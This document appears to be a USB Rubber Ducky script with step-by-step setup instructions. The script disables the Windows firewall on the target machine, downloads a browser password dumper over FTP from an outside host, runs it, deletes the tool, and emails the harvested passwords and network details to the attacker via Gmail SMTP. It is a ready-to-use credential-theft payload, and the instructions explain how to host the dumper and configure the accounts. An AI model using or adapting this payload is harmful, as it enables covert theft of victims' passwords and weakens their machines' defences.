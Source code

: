 DELAY 800

GUI

DELAY 800

STRING Command Prompt

CTRL-SHIFT ENTER

DELAY 1000
ALT y
DELAY 1500
STRING mkdir C:\DuckyReport
ENTER
STRING netsh advfirewall set allprofiles state off
ENTER
STRING ipconfig > C:\DuckyReport\ipconfig.txt
ENTER
STRING cd C:\DuckyReport
ENTER
STRING ftp
ENTER
STRING open ftp.drivehq.com
ENTER
DELAY 2500
STRING YourDriveHQUsername
ENTER
DELAY 2500
STRING YourDriveHQPassword
ENTER
DELAY 2500
STRING get BPD.exe
ENTER
DELAY 8000
STRING close
ENTER
DELAY 800
STRING quit
ENTER
DELAY 800
STRING BPD.exe -f BPD.txt
ENTER
DELAY 2500
STRING del BPD.exe
ENTER
DELAY 800
STRING Exit
ENTER
DELAY 800
GUI
DELAY 1000
STRING Powershell
ENTER
DELAY 1000
STRING $emailSmtpServer = "smtp.gmail.com";$emailSmtpServerPort = "587";$emailSmtpUser = "yourgmailusername@gmail.com";$emailSmtpPass = "YourGmailPassword";$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";$emailMessage.To.Add("EmailToSendTo@example.com");$emailMessage.Body = "See attachments";$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = "C:\DuckyReport\BPD.txt";$emailMessage.Attachments.Add($attachment);$attachment2 = "C:\DuckyReport\ipconfig.txt";$emailMessage.Attachments.Add($attachment2);$SMTPClient.Send($emailMessage);
ENTER
DELAY 5000
STRING exit
ENTER

# Instructions:
1. Create an free account at [https://www.drivehq.com/features/ftp.aspx](https://www.drivehq.com/features/ftp.aspx)
2. Download BPD.zip and extract it from [https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing](https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing)
3. Go to your account and upload BPD.exe to the root directory.
4. In the script please change the following to your information:
    On line 22 ```STRING YourDriveHQUsername``` change ___YourDriveHQUsername___ to your username for www.drivehq.com

    On line 25 ```STRING YourDriveHQPassword``` change ___YourDriveHQPassword___ to your password for www.drivehq.com

    On line 51 ```$emailSmtpUser = "yourgmailusername@gmail.com";``` This the account email used to send the email with 
        the passwords list. It is only set to use a gmail address. Change ___yourgmailusername@gmail.com___ to your email. 
        Leave the quotation marks on both sides there.

    On line 51 ```$emailSmtpPass = "YourGmailPassword";``` change ___YourGmailPassword___ to the password for your account 
        but leave the quotation marks on both sides there.

    On line 51 ```$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";``` change 
        ___YourEmailAddressHere@gmail.com___ to your email address. Please leave the brackets on either side of the email 
        address.
    On line 51 ```$emailMessage.To.Add("EmailToSendTo@example.com");``` change ___EmailToSendTo@example.com___ to whatever 
        email you are sending the files to. Leave the quotation marks on both sides there.

5. Load the script on your USB RubberDucky and you are ready to do some reconnaissance.